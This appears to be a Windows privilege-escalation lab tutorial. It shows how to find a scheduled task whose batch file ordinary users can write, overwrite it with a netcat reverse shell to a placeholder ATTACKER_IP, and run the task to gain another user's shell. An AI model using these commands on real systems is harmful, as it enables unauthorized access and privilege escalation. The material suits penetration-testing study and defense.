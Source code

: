 # Scheduled Tasks

## Check for a Vuln Schtask

Looking into scheduled tasks on the target system, you may see a scheduled task that either lost its binary or it's using a binary you can modify.

Scheduled tasks can be listed from the command line using the `schtasks` command without any options. To retrieve detailed information about any of the services, you can use a command like the following one:

```powershell
schtasks # list all schtasks
schtasks /query /tn $TASK_NAME /fo list /v # get info about one task

# output
Folder: \
HostName:                             PC1
TaskName:                             \vulntask
Task To Run:                          C:\tasks\schtask.bat
Run As User:                          taskusr1
```

You will get lots of information about the task, but what matters for us is the "`Task to Run`" parameter which indicates what gets executed by the scheduled task, and the "`Run As User`" parameter, which shows the user that will be used to execute the task.

## Change schtask script

If our user can change the "`Task to Run`" executable, we can decide what the `taskusr1` user runs, leading to easy privilege escalation. Use `icacls` to check the file permissions on the executable:

```powershell
icacls c:\tasks\schtask.bat

# output 
c:\tasks\schtask.bat NT AUTHORITY\SYSTEM:(I)(F)
                    BUILTIN\Administrators:(I)(F)
                    BUILTIN\Users:(I)(F)
```

We can see that the **BUILTIN\Users** group has full access (F) to the task's binary file. This allows us to modify the .bat file and add any payload we want. You can find `nc64.exe` in `C:\tools`. Let's modify the .bat file to create a reverse shell:

```
echo c:\tools\nc64.exe -e cmd.exe ATTACKER_IP 4444 > C:\tasks\schtask.bat
```

To manually run the scheduled task with taskusr1 privileges and get a reverse shell, use this command:

```
schtasks /run /tn vulntask
```

\


